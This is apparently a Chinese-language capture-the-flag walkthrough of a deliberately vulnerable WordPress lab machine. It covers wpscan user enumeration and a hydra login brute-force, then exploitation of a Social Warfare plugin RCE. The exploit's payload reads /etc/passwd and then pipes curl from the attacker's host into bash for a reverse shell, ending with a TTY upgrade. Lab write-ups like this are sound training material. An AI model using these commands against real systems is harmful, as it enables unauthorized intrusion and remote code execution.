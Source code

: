 使用 wpscan 搜集用户名：

```
wpscan --url http://192.168.5.30/wordpress/ -e u
```

发现用户：admin 和 max

尝试使用 wpscan 进行用户登陆爆破：

```
hydra -t 20 -L user.txt -P ~/tools/dict/rockyou.txt 192.168.5.30 -f http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.5.30%2Fwordpress%2Fwp-admin%2F&testcookie=1:F=is incorrect"
```

找到了 max 的密码:opensesame,但是进入系统后，是个低权限用户，没有办法写入 web shell，只能尝试其他方向。

发现了 2 个 wp 插件：simple-cart-solution Version: 0.2.0 和 social-warfare Version: 3.5.0，看看这 2 个插件有没有漏洞，版本都比较老。

http://192.168.5.30/wordpress/wp-content/plugins/simple-cart-solution/

http://192.168.5.30/wordpress/wp-content/plugins/social-warfare/

发现 social-warfare 有一个 RCE 漏洞，https://www.exploit-db.com/exploits/46794，尝试进行利用：

```
python2 46794.py --target http://192.168.5.30/wordpress/ --payload-uri http://192.168.5.3/payload.txt
```

其中，http://192.168.5.3/payload.txt 为在本地搭建的 web，内容为：

```
<pre>system('cat /etc/passwd')</pre>
```

得到了目标系统的/etc/passwd 文件内容：

```
root:x:0:0:root:/root:/bin/bash
max:x:1000:1000:roel:/home/max:/bin/bash
steven:x:1001:1001:Steven,,,:/home/steven:/bin/bash
```

下面进行 shell 反弹，修改 payload.txt 内容为：

```
<pre>system('curl http://192.168.5.3/5.3/8888.sh | bash')</pre>
```

kali 上监听 8888 端口，执行后，得到了反弹的 shell：

```
www-data@so-simple:/var/www/html/wordpress/wp-admin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

先升级下 tty，目标系统没有 python，直接使用 script /dev/null -qc /bin/bash 进行升级。

进行系统枚举。
